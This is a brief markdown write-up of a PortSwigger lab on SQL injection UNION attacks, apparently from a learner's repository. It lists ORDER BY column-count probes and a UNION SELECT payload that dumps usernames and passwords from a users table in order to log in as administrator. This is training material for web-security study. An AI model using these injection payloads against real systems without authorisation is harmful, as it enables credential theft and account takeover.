

// platform portswigger

#### target -> Lab: SQL injection UNION attack, retrieving data from other tables
************************************************
**where is vuln: product category**

**our goal login as administrator**

#### Analysis
 ##### find how many columns
 - ' order by 1 --
 - ' order by 2 -- `yes`
 - ' order by 3 --

 ##### Exploitation
 - ' UNION SELECT username,password from users --

### Steps:
1. Access the lab.
2. click any product.
3. Exploit with payload
4. show users -> passwords and usernames and pick admin pass than login as administrator.
5. Now solve the lab -> 

#### Check exploit.py

